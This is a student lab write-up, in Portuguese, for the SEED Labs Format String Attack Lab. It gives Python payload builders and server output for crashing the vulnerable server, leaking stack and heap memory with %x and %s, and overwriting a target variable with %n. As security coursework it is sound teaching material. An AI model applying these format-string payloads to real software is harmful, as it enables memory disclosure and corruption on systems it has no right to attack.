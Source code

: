 # SEED Labs - Format String Attack Lab

## Task 1: Crashing the Program

- build_string.py
```python
#!/usr/bin/python3
import sys

N = 1500
content = ("%s"*N).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Uma vez que, a função `printf` é chamada (na `myprintf`) sem nenhum argumento opcional, caso o input (string) seja vários `format specifiers`, o seu pointer `va_list` irá avançar para endereços além da sua stack frame. O payload, guardado em `build_string.py`, foi preenchido com vários `%s` como se pode ver acima.
Para cada format specifier `%s` a função `printf` irá tratar o valor obtido (para onde va_list aponta) como um endereço e tenta imprimir valor desse mesmo endereço. O programa irá terminar indevidamente quando a função `printf` tentar imprimir o valor de um endereço inválido (null pointers, endereços que apontam para memória protegida ou endereços virtuais que não estão mapeados na memória física).

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd740
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd668
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

Não é imprimida nenhuma mensagem de retorno, pelo que presupomos que o programa terminou sem retornar devidamente.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

Foram necessários **64** (NUM_FORMAT_SPECIFIERS) `format specifiers %x` para `0xaaaaaaaa` ser impresso. `0xaaaaaaaa` (4 bytes) foi colocado no início do payload e o valor, **64**, foi obtido por tentativa e erro. 

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 64

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaaaaaaaa
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x\n"*NUM_FORMAT_SPECIFIERS

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | ����11223344
server-10.9.0.5 | 1000
server-10.9.0.5 | 8049db5
(60 linhas ocultas)
server-10.9.0.5 | aaaaaaaa
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 2.B: Heap Data

Em relação à alínea anterior, os primeiros 4 bytes do input (variável `number`) foram substituídos pelo endereço da _secret message_, `0x080b4008`, que foi obtido através do printout do server - `"The secret message's address:  0x080b4008`. O último format specifier `%x` foi substituído por `%s`, assim a função `printf` trata o valor desse endereço como uma `string`

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 63

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x80b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*NUM_FORMAT_SPECIFIERS + "\n%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 1122334410008049db580e532080e61c0ffffd750ffffd67880e62d480e5000ffffd7188049f7effffd7500648049f4780e53205dc5dcffffd750ffffd75080e97200000000000000000000000000dc0af00080e500080e5000ffffdd388049effffffd7505dc5dc80e5320000ffffde040005dc
server-10.9.0.5 | A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

O endereço da variável `target` é `0x080e5068` e este corresponde aos primeiros 4 bytes do input, à semelhança do que foi feito na Task 2. Por último, foi utilizado o format specifier `%n`, deste modo o número de caracteres impressos pela função `printf` será guardado no endereço indicado, o que permite alterar o valor da variável para outro qualquer. Através do printout do container é possível confirmar que o valor original da variável `target` (0x11223344) foi alerado para `0xed`, que corresponde a 237 em decimal. Isto quer dizer que 237 caracteres foram impressos antes da função `printf` tratar o último format specifier.

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 63

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*NUM_FORMAT_SPECIFIERS + "\n%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd210
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd138
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h1122334410008049db580e532080e61c0ffffd210ffffd13880e62d480e5000ffffd1d88049f7effffd2100648049f4780e53205dc5dcffffd210ffffd21080e97200000000000000000000000000bade210080e500080e5000ffffd7f88049effffffd2105dc5dc80e5320000ffffd8c40005dc
server-10.9.0.5 | The target variable's value (after):  0x000000ed
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.B: Change the value to 0x5000

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 62

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.330x"*NUM_FORMAT_SPECIFIERS + "%.16x%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | The target variable's value (after):  0x00005001
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd210
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd138
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | (...) 
server-10.9.0.5 | The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

# CTF

